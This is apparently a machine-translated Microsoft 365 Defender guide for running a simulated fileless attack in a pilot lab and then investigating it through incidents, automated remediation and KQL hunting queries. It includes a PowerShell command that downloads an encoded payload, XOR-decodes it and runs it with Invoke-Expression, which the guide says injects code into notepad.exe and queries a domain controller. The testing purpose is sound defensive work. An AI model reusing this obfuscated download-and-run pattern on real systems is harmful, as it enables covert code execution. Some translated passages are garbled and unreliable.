

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Executar suas simulações de ataque do Microsoft 365 Defender

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[Planejamento](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[Preparação](prepare-mtpeval.md)|<br/>Simular ameaças|[](mtp-pilot-close.md)<br/>[Fechar e resumir](mtp-pilot-close.md)|
|--|--|--|--|
|||*Você está aqui!*||

Você está atualmente na fase de simulação de ataque.

Depois de preparar seu ambiente piloto, é hora de testar o gerenciamento de incidentes do Microsoft 365 Defender e os recursos automatizados de investigação e correção. Ajudaremos você a simular um ataque sofisticado que utiliza técnicas avançadas para ocultar-se da detecção. O ataque enumera sessões SMB (Bloco de Mensagens do Servidor) abertas em controladores de domínio e recupera endereços IP recentes dos dispositivos dos usuários. Essa categoria de ataques geralmente não inclui arquivos descartados no dispositivo da vítima— eles ocorrem apenas na memória. Eles "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.

Nesta simulação, nosso cenário de exemplo começa com um script do PowerShell. Um usuário pode ser complicado para executar um script. Ou o script pode ser executado de uma conexão remota com outro computador de um dispositivo infectado anteriormente — o invasor que está tentando se mover lateralmente na rede. A detecção desses scripts pode ser difícil porque os administradores geralmente também podem executar scripts remotamente para realizar várias atividades administrativas.


Durante a simulação, o ataque injeta o código do shell em um processo aparentemente lento. O cenário exige o uso de notepad.exe. Escolhemos esse processo para a simulação, mas os invasores provavelmente direcionariam um processo de sistema de longa execução, como o svchost.exe. Em seguida, o shellcode entra em contato com o servidor de comando e controle (C2) do invasor para receber instruções sobre como continuar. O script tenta executar consultas no controlador de domínio (DC). A autorização permite que um invasor receba informações sobre informações de logon recentes do usuário. Depois que os invasores têm essas informações, eles podem se mover lateralmente na rede para obter uma conta sensível específica

> [!IMPORTANT]
> Para obter os melhores resultados, siga as instruções de simulação de ataque o mais próximo possível.

## <a name="simulation-environment-requirements"></a>Requisitos de ambiente de simulação

Como você já configurou seu ambiente piloto durante a fase de preparação, verifique se tem dois dispositivos para esse cenário: um dispositivo de teste e um controlador de domínio.

1. Verifique se o locatário [habilitar o Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)

2. Verifique a configuração do controlador de domínio de teste:

   - O dispositivo é executado com o Windows Server 2008 R2 ou uma versão posterior.
   - O controlador de domínio de teste [para o Microsoft Defender para Identidade](https://docs.microsoft.com/azure/security-center/security-center-wdatp) e habilitar o gerenciamento [remoto.](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Verifique se [a integração do Microsoft Defender para Identidade](https://docs.microsoft.com/cloud-app-security/mdi-integration) e do Microsoft Cloud App Security foi habilitada.
   - Um usuário de teste é criado em seu domínio – nenhuma permissão de administrador é necessária.

3. Verifique a configuração do dispositivo de teste:

   1. O dispositivo é executado com o Windows 10 versão 1903 ou uma versão posterior.

   1. O dispositivo de teste é ingressado no domínio de teste.

   1. [Ativar o Windows Defender Antivírus.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Se você estiver tendo problemas para habil ou não habil ou não o Windows Defender Antivírus, consulte este [tópico de solução de problemas.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Verifique se o dispositivo de teste [está onboarded ao Microsoft Defender para Ponto de Extremidade).](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Se você usar um locatário existente e implementar grupos de dispositivos, crie um grupo de dispositivos dedicado para o dispositivo de teste e o push para o nível superior na experiência do usuário de configuração.

## <a name="run-the-attack-scenario-simulation"></a>Executar a simulação do cenário de ataque

Para executar a simulação do cenário de ataque:

1. Faça logoff no dispositivo de teste com a conta de usuário de teste.

2. Abra uma janela do Windows PowerShell no dispositivo de teste.

3. Copie o seguinte script de simulação:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Se você abrir este documento em um navegador da Web, poderá encontrar problemas para copiar o texto completo sem perder determinados caracteres ou introduzir quebras de linha extras. Baixe este documento e abra-o no Adobe Reader.

4. No prompt, copie e execute o script copiado.

> [!NOTE]
> Se você estiver executando o PowerShell usando o protocolo de área de trabalho remota (RDP), use o comando Digitar Texto da Área de Transferência no cliente RDP porque a tecla de atalho **CTRL-V** ou o método clique com o botão direito do mouse pode não funcionar. Às vezes, as versões recentes do PowerShell também não aceitarão esse método, talvez seja preciso copiar para o Bloco de Notas na memória primeiro, copiá-lo na máquina virtual e, em seguida, colar no PowerShell.

Alguns segundos depois, <i>notepad.exe</i> será aberto. Um código de ataque simulado será injetado em notepad.exe. Mantenha aberta a instância do Bloco de Notas gerada automaticamente para experimentar o cenário completo.

O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando o servidor C2) e tentará se comunicar com o controlador de domínio por meio de SMB.

Você verá uma mensagem exibida no console do PowerShell quando esse script for concluído.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Para ver o recurso Incidente Automatizado e Resposta em ação, mantenha o processo notepad.exe aberto. Você verá incidentes automatizados e resposta parar o processo do Bloco de Notas.

## <a name="investigate-an-incident"></a>Investigar um incidente

> [!NOTE]
> Antes de explicarmos essa simulação, assista ao vídeo a seguir para ver como o gerenciamento de incidentes ajuda você a reunir os alertas relacionados como parte do processo de investigação, onde você pode encontrá-los no portal e como ele pode ajudá-lo em suas operações de segurança:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Mudando para o ponto de vista do analista do SOC, agora você pode começar a investigar o ataque no portal da Central de Segurança do Microsoft 365.

1. Abra a fila de incidentes do portal da Central de Segurança do [Microsoft 365](https://security.microsoft.com/incidents) em qualquer dispositivo.

2. Navegue **até Incidentes** no menu.

    

3. O novo incidente para o ataque simulado aparecerá na fila de incidentes.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Investigar o ataque como um único incidente

O Microsoft 365 Defender correlaciona a análise e agrega todos os alertas e investigações relacionados de diferentes produtos em uma entidade de incidente. Ao fazer isso, o Microsoft 365 Defender mostra uma história de ataque mais ampla, permitindo que o analista do SOC compreenda e responda a ameaças complexas.

Os alertas gerados durante essa simulação são associados à mesma ameaça e, como resultado, são automaticamente agregados como um único incidente.

Para exibir o incidente:

1. Navegue até **a fila incidentes.**

   

2. Selecione o item mais recente clicando no círculo localizado à esquerda do nome do incidente. Um painel lateral exibe informações adicionais sobre o incidente, incluindo todos os alertas relacionados. Cada incidente tem um nome exclusivo que o descreve com base nos atributos dos alertas incluídos.

   

   Os alertas que aparecem no painel podem ser filtrados com base nos recursos de serviço: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender e Microsoft Defender para Office 365.

3. Selecione **a página Abrir incidente** para obter mais informações sobre o incidente.

   Na página **Incidente,** você pode ver todos os alertas e informações relacionadas ao incidente. As informações incluem as entidades e os ativos envolvidos no alerta, a fonte de detecção dos alertas (Microsoft Defender para Identidade, EDR) e o motivo pelo qual eles foram vinculados. A análise da lista de alertas de incidentes mostra a progressão do ataque. Nessa exibição, você pode ver e investigar os alertas individuais.

   Você também pode clicar **em Gerenciar incidentes** no menu à direita, para marcar o incidente, atribuí-lo a si mesmo e adicionar comentários.

   

   

### <a name="review-generated-alerts"></a>Revisar alertas gerados

Vamos ver alguns dos alertas gerados durante o ataque simulado.

> [!NOTE]
> Vamos ver apenas alguns dos alertas gerados durante o ataque simulado. Dependendo da versão do Windows e dos produtos do Microsoft 365 Defender em execução em seu dispositivo de teste, você poderá ver mais alertas que aparecem em uma ordem ligeiramente diferente.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Alerta: injeção de processo suspeito observada (Fonte: Microsoft Defender para Endpoint EDR)

Invasores avançados usam métodos sofisticados e furtivos para persistir na memória e ocultar-se das ferramentas de detecção. Uma técnica comum é operar dentro de um processo de sistema confiável em vez de um executável mal-intencionado, dificultando a detecção de ferramentas e operações de segurança para detectar o código mal-intencionado.

Para permitir que os analistas de SOC detectem esses ataques avançados, os sensores de memória profunda no Microsoft Defender para Ponto de Extremidade fornecem ao nosso serviço de nuvem visibilidade sem precedentes de uma variedade de técnicas de injeção de código entre processos. A figura a seguir mostra como o Defender para Ponto de Extremidade detectado e alertado sobre a tentativa de injetar código <i>notepad.exe</i>.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Alerta: comportamento inesperado observado por um processo executado sem argumentos de linha de comando (Origem: Microsoft Defender para EDR do ponto de extremidade)

As detecções de ponto de extremidade do Microsoft Defender geralmente visam o atributo mais comum de uma técnica de ataque. Esse método garante a durabilidade e eleva a barra para que os invasores mudem para táticas mais novas.

Empregamos algoritmos de aprendizado em grande escala para estabelecer o comportamento normal de processos comuns dentro de uma organização e em todo o mundo e observar quando esses processos mostram comportamentos anômalos. Esses comportamentos anômalos geralmente indicam que código estranho foi introduzido e está sendo executado em um processo confiável de outra forma.

Para esse cenário, o processo <i>notepad.exe</i> está exibindo comportamento anormal, envolvendo a comunicação com um local externo. Esse resultado é independente do método específico usado para introduzir e executar o código mal-intencionado.

> [!NOTE]
> Como esse alerta é baseado em modelos de aprendizado de máquina que exigem processamento adicional de back-end, pode levar algum tempo até que você veja esse alerta no portal.

Observe que os detalhes do alerta incluem o endereço IP externo, um indicador que você pode usar como pivô para expandir a investigação.

Selecione o endereço IP na árvore do processo de alerta para exibir a página de detalhes do endereço IP.


A figura a seguir exibe a página de detalhes do Endereço IP selecionado (clicando no endereço IP na árvore do processo de alerta).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Alerta: SMB (reconhecimento de endereço IP e usuário) (Origem: Microsoft Defender para Identidade)

A enumeração usando o protocolo SMB (Server Message Block) permite que os invasores recebam informações recentes de logon do usuário que os ajudam a se mover lateralmente pela rede para acessar uma conta sensível específica.

Nessa detecção, um alerta é disparado quando a enumeração da sessão SMB é executado em um controlador de domínio.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Analisar a linha do tempo do dispositivo [Microsoft Defender para Ponto de Extremidade]

Depois de explorar os vários alertas neste incidente, navegue de volta para a página de incidentes investigada anteriormente. Selecione a **guia Dispositivos** na página de incidentes para revisar os dispositivos envolvidos neste incidente, conforme relatado pelo Microsoft Defender para Ponto de Extremidade e Microsoft Defender para Identidade.

Selecione o nome do dispositivo no qual o ataque foi conduzido, para abrir a página de entidade desse dispositivo específico. Nessa página, você pode ver alertas que foram disparados e eventos relacionados.

Selecione a guia **Linha** do Tempo para abrir a linha do tempo do dispositivo e exibir todos os eventos e comportamentos observados no dispositivo em ordem cronológica, intercalados com os alertas gerados.


A expansão de alguns dos comportamentos mais interessantes fornece detalhes úteis, como árvores de processo.

Por exemplo, role para baixo até encontrar a injeção de processo suspeito do evento **de alerta observada.** Selecione o **powershell.exe injetado** em um evento de processo notepad.exe abaixo dele, para exibir  a árvore de processos completa para esse comportamento sob o gráfico entidades de evento no painel lateral. Use a barra de pesquisa para filtragem, se necessário.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Analisar as informações do usuário [Microsoft Cloud App Security]

Na página incidente, selecione a **guia Usuários** para exibir a lista de usuários envolvidos no ataque. A tabela contém informações adicionais sobre cada usuário, incluindo a pontuação de Prioridade de **Investigação de cada** usuário.

Selecione o nome de usuário para abrir a página de perfil do usuário onde uma investigação posterior pode ser realizada. [Leia mais sobre como investigar usuários arriscados.](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Investigação e correção automatizadas

> [!NOTE]
>Antes de passarmos por essa simulação, assista ao vídeo a seguir para se familiarizar com o que é a autorrecução automática, onde encontrá-lo no portal e como ele pode ajudar em suas operações de segurança:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navegue de volta para o incidente no portal da Central de Segurança do Microsoft 365. A **guia Investigações** na página **Incidente** mostra as investigações automatizadas que foram disparadas pelo Microsoft Defender for Identity e pelo Microsoft Defender para o Ponto de Extremidade. A captura de tela abaixo exibe apenas a investigação automatizada acionada pelo Defender para Ponto de Extremidade. Por padrão, o Defender para Ponto de Extremidade remedia automaticamente os artefatos encontrados na fila, o que requer correção.


Selecione o alerta que disparou uma investigação para abrir a **página Detalhes da** investigação. Você verá os seguintes detalhes:

- Alertas que dispararam a investigação automatizada.
- Usuários e dispositivos afetados. Se indicadores são encontrados em dispositivos adicionais, esses dispositivos adicionais também serão listados.
- Lista de evidências. As entidades encontradas e analisadas, como arquivos, processos, serviços, drivers e endereços de rede. Essas entidades são analisadas em busca de possíveis relações com o alerta e classificadas como benignas ou mal-intencionadas.
- Ameaças encontradas. Ameaças conhecidas encontradas durante a investigação.

> [!NOTE]
> Dependendo do tempo, a investigação automatizada ainda pode estar em execução. Aguarde alguns minutos até que o processo seja concluído antes de coletar e analisar as evidências e analisar os resultados. Atualize **a página detalhes da** investigação para obter as descobertas mais recentes.


Durante a investigação automatizada, o Microsoft Defender para Ponto de Extremidade identificou o processo de notepad.exe, que foi injetado como um dos artefatos que exigem correção. O Defender para Ponto de Extremidade interrompe automaticamente a injeção de processo suspeito como parte da correção automatizada.

Você pode ver <i>notepad.exe</i> desaparecer da lista de processos em execução no dispositivo de teste.

## <a name="resolve-the-incident"></a>Resolver o incidente

Após a conclusão da investigação e confirmação da correção, feche o incidente.

Selecione **Gerenciar incidente.** Definir o status para **Resolver incidente e** selecionar a classificação relevante.

Quando o incidente é resolvido, ele fecha todos os alertas associados na Central de Segurança do Microsoft 365 e nos portais relacionados.


Isso encerra a simulação de ataque para o gerenciamento de incidentes e cenários de investigação e correção automatizadas. A próxima simulação levará você à busca proativa de ameaças por arquivos potencialmente mal-intencionados.

## <a name="advanced-hunting-scenario"></a>Cenário de busca avançada

> [!NOTE]
> Antes de passarmos pela simulação, assista ao vídeo a seguir para entender os conceitos de busca avançada, ver onde você pode encontrá-lo no portal e saber como isso pode ajudá-lo em suas operações de segurança:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisitos de ambiente de busca

Há uma única caixa de correio interna e um dispositivo necessários para esse cenário. Você também precisará de uma conta de email externa para enviar a mensagem de teste.

1. Verifique se seu locatário [habilitar o Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)
2. Identifique uma caixa de correio de destino a ser usada para receber emails.
    a. Essa caixa de correio deve ser monitorada pelo Microsoft Defender para Office 365 b. O dispositivo do requisito 3 precisa acessar essa caixa de correio
3. Configure um dispositivo de teste: a. Certifique-se de estar usando o Windows 10 versão 1903 ou versão posterior.
    b. Insisse o dispositivo de teste no domínio de teste.
    c. [Ativar o Windows Defender Antivírus.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Se você estiver tendo problemas para habil ou não habil ou não o Windows Defender Antivírus, consulte [este tópico de solução de problemas.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    d. [Onboard to Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Executar a simulação

1. Em uma conta de email externa, envie um email para a caixa de correio identificada na etapa 2 da seção de requisitos do ambiente de teste. Inclua um anexo que será permitido por meio de quaisquer políticas de filtro de email existentes. Esse arquivo não precisa ser mal-intencionado ou executável. Os tipos de arquivo sugeridos <i>são .pdf</i>, <i>.exe</i> (se permitido) ou um documento do Office, como um arquivo do Word.
2. Abra o email enviado do dispositivo configurado conforme definido na etapa 3 da seção de requisitos do ambiente de teste. Abra o anexo ou salve o arquivo no dispositivo.

#### <a name="go-hunting"></a>Ir à busca

1. Abra o security.microsoft.com portal.

2. Navegue até **Busca > Busca Avançada.**

   

3. Crie uma consulta que comece coletando eventos de email.

   1. No painel de consulta, selecione Novo.

   1. Clique duas vezes na tabela EmailEvents do esquema.

      ```console
      EmailEvents
      ```

   1. Altere o período para as últimas 24 horas. Supondo que o email enviado quando você fez a simulação acima foi nas últimas 24 horas, caso contrário, altere o período de tempo.

      

   1. Execute a consulta. Você pode ter muitos resultados dependendo do ambiente do piloto.

      > [!NOTE]
      > Consulte a próxima etapa para filtrar opções para limitar o retorno de dados.

      

        > [!NOTE]
        > A busca avançada exibe os resultados da consulta como dados tabular. Você também pode optar por exibir os dados em outros tipos de formato, como gráficos.

   1. Veja os resultados e veja se é possível identificar o email que você abriu. Pode levar até 2 horas para a mensagem aparecer na busca avançada. Se o ambiente de email for grande e houver muitos resultados, talvez você queira usar a opção Mostrar Filtros **para** encontrar a mensagem.

      No exemplo, o email foi enviado de uma conta do Yahoo. Clique no ícone ao yahoo.com abaixo da **+** seção SenderFromDomain  e clique em Aplicar para adicionar o domínio selecionado à consulta.  Use o domínio ou a conta de email que foi usada para enviar a mensagem de teste na etapa 1 de Executar a Simulação para filtrar seus resultados. Execute a consulta novamente para obter um conjunto de resultados menor para verificar se você vê a mensagem da simulação.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Clique nas linhas resultantes da consulta para poder inspecionar o registro.

      

4. Agora que você verificou que pode ver o email, adicione um filtro para os anexos. Concentre-se em todos os emails com anexos no ambiente. Para esse cenário, concentre-se nos emails de entrada, não aqueles que estão sendo enviados do seu ambiente. Remova todos os filtros que você adicionou para localizar sua mensagem e adicionar "| onde **AttachmentCount > 0** e **EmailDirection**  ==  **"Inbound""**

   A consulta a seguir mostrará o resultado com uma lista menor do que a consulta inicial para todos os eventos de email:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Em seguida, inclua as informações sobre o anexo (como: nome do arquivo, hashes) para o conjunto de resultados. Para fazer isso, participe da **tabela EmailAttachmentInfo.** Os campos comuns a ser usado para ingressar, neste caso são **NetworkMessageId** e **RecipientObjectId**.

   A consulta a seguir também inclui uma linha adicional "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Em seguida, use o valor **SHA256** da **tabela EmailAttachmentInfo** para encontrar **DeviceFileEvents** (ações de arquivo que aconteceram no ponto de extremidade) para esse hash. O campo comum aqui será o hash SHA256 do anexo.

   A tabela resultante agora inclui detalhes do ponto de extremidade (Microsoft Defender para Ponto de Extremidade), como o nome do dispositivo, qual ação foi feita (neste caso, filtrada para incluir apenas eventos FileCreated) e onde o arquivo foi armazenado. O nome da conta associado ao processo também será incluído.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Agora você criou uma consulta que identificará todos os emails de entrada onde o usuário abriu ou salvou o anexo. Você também pode refinar essa consulta para filtrar domínios de remetente específicos, tamanhos de arquivo, tipos de arquivo e assim por diante.

7. As funções são um tipo especial de junção, que permite obter mais dados de TI sobre um arquivo, como sua prevalência, as informações do signante e do emissor, etc. Para obter mais detalhes sobre o arquivo, use o **enriquecimento da função FileProfile():**

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Criar uma detecção

Depois de criar uma consulta que identifica as informações  que você gostaria de receber alertas sobre se elas ocorrerem no futuro, você pode criar uma detecção personalizada a partir da consulta.

Detecções personalizadas executarão a consulta de acordo com a frequência definida, e os resultados das consultas criarão alertas de segurança, com base nos ativos afetados que você escolher. Esses alertas serão correlacionados a incidentes e poderão ser triados como qualquer outro alerta de segurança gerado por um dos produtos.

1. Na página de consulta, remova as linhas 7 e 8 que foram adicionadas na etapa 7 das instruções de busca go e clique em **Criar regra de detecção.**

   

   > [!NOTE]
   > Se você clicar **em Criar regra de** detecção e tiver erros de sintaxe na consulta, a regra de detecção não será salva. Verifique sua consulta para garantir que não haja erros.

2. Preencha os campos obrigatórios com as informações que permitirão que a equipe de segurança entenda o alerta, por que ele foi gerado e quais ações você espera que elas realizem.

   

   Certifique-se de preencher os campos com clareza para ajudar a dar ao próximo usuário uma decisão informada sobre esse alerta de regra de detecção

3. Selecione quais entidades são impactadas nesse alerta. Nesse caso, selecione Dispositivo **e Caixa** de **Correio.**

   

4. Determine quais ações devem ocorrer se o alerta for disparado. Nesse caso, execute uma verificação antivírus, embora outras ações poderiam ser tomadas.

   

5. Selecione o escopo da regra de alerta. Como essa consulta envolve dispositivos, os grupos de dispositivos são relevantes nessa detecção personalizada de acordo com o microsoft Defender para contexto de ponto de extremidade. Ao criar uma detecção personalizada que não inclui dispositivos como entidades impactadas, o escopo não se aplica.

   

   Para este piloto, talvez você queira limitar essa regra a um subconjunto de dispositivos de teste em seu ambiente de produção.

6. Selecione **Criar**. Em seguida, selecione **Regras de detecção personalizadas** no painel de navegação.

   

   

   Nesta página, você pode selecionar a regra de detecção, que abrirá uma página de detalhes.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Exercícios passo a passo de busca avançada adicionais

Para saber mais sobre a busca avançada, os webcasts a seguir o acompanharão pelos recursos de busca avançada no Microsoft 365 Defender para criar consultas de pilar cruzado, girar para entidades e criar detecções personalizadas e ações de correção.

> [!NOTE]
> Esteja preparado com sua própria conta do GitHub para executar as consultas de busca em seu ambiente de laboratório de teste piloto.

|Título|Descrição|Baixar MP4|Assistir no YouTube|Arquivo CSL a ser usado|
|---|---|---|---|---|
|Episódio 1: Conceitos básicos de KQL|Vamos abranger os conceitos básicos de recursos avançados de busca no Microsoft 365 Defender. Saiba mais sobre os dados de busca avançada disponíveis e a sintaxe e os operadores KQL básicos.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Episódio 1: arquivo CSL no Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Episódio 2: Junções|Continuaremos a aprender sobre os dados na busca avançada e como unir tabelas. Saiba mais sobre junções internas, externas, exclusivas e semi e as nuances da junção interna padrão kusto.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Episódio 2: arquivo CSL no Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Episódio 3: Resumo, pivô e visualização de dados|Agora que podemos filtrar, manipular e unir dados, é hora de começar a resumir, quantificar, girar e visualizar. Neste episódio, vamos cobrir o operador resumido e alguns dos cálculos que você pode realizar ao se dividir em tabelas adicionais no esquema de busca avançada. Transformamos nossos conjuntos de dados em gráficos que podem ajudar a melhorar a análise.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Episódio 3: arquivo CSL no Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Episódio 4: Vamos procurar! Aplicando KQL ao rastreamento de incidentes|Tempo para rastrear alguma atividade do invasor! Neste episódio, vamos usar nossa compreensão aprimorada do KQL e da busca avançada no Microsoft 365 Defender para rastrear um ataque. Conheça algumas dicas e truques usados no campo para controlar a atividade do invasor, incluindo os ABCs de segurança cibernética e como aplicá-los à resposta a incidentes.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Episódio 4: arquivo CSL no Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Próxima etapa

| <br>[Fase de fechamento e resumo](mtp-pilot-close.md)|Analise o resultado piloto do Microsoft 365 Defender, apresente-os aos participantes e dê o próximo passo.
|:-----|:-----|
